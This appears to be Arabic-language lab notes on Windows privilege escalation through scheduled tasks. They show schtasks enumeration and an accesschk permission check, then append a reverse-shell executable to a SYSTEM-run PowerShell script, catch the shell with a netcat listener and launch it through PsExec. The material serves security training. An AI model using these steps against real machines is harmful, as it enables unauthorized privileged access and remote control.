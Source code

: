 **ملاحظة**: ==في سيناريوهات حقيقية==، قد تحتاج إلى الانتظار حتى يقوم المسؤول (administrator) بتسجيل الدخول بنفسه لكي يتم تفعيل البرنامج بشكل تلقائي.

# Scheduled Tasks

1-. استعراض المهام المجدولة الموجودة
```
schtasks /Query /FO LIST /V
```
- **/FO LIST**: يعرض النتائج بتنسيق قائمة مفصلة.
- **/V**: يظهر التفاصيل الكاملة للمهام.

1----للتصفية حسب المهام أو الملفات التي تحتوي على كلمات معينة (مثل "TaskName" أو "Executable"):

```

schtasks /query /fo LIST /v | findstr /C:"TaskName:" /C:"Executable:"

```

2- البحث عن ملف يحتوي على سكربت مجدول

في بعض الحالات، يمكن العثور على ملف أو خدمة تشير إلى أنها مهمة مجدولة. في هذا المثال، قمنا بالتحقق من محتويات الملف التالي:

type C:\DevTools\CleanUp.ps1


الملف **CleanUp.ps1** قد يكون سكربت PowerShell مرتبط بمهمة مجدولة. فحصنا محتوى الملف للتحقق من كونه جزءًا من مهمة مجدولة تعمل بامتيازات SYSTEM.

3- التحقق من الأذونات
```


C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1


```
4-تعديل السكربت المجدول لإضافة reverse shell
```

echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1

```
يضيف هذا السطر أمرًا إلى نهاية السكربت ليشغل **reverse.exe** عند تنفيذ المهمة المجدولة.


5-  إعداد  (Listener) على Kali

------------------------------------------------------------
1- إعداد Listener على Kali  عشان يستقبل اتصال من ال reverse shell 
```
nc -lvnp 4444
```
2- الحصول على shell باستخدام Local Service :
```

C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe

```
- **-i**: تشغيل التطبيق في نفس جلسة المستخدم.
- **-u "nt authority\local service"**: تشغيل الأداة بحساب **Local Service**.
- **C:\PrivEsc\reverse.exe**: هو البرنامج الذي سيقوم بإنشاء الاتصال العكسي.
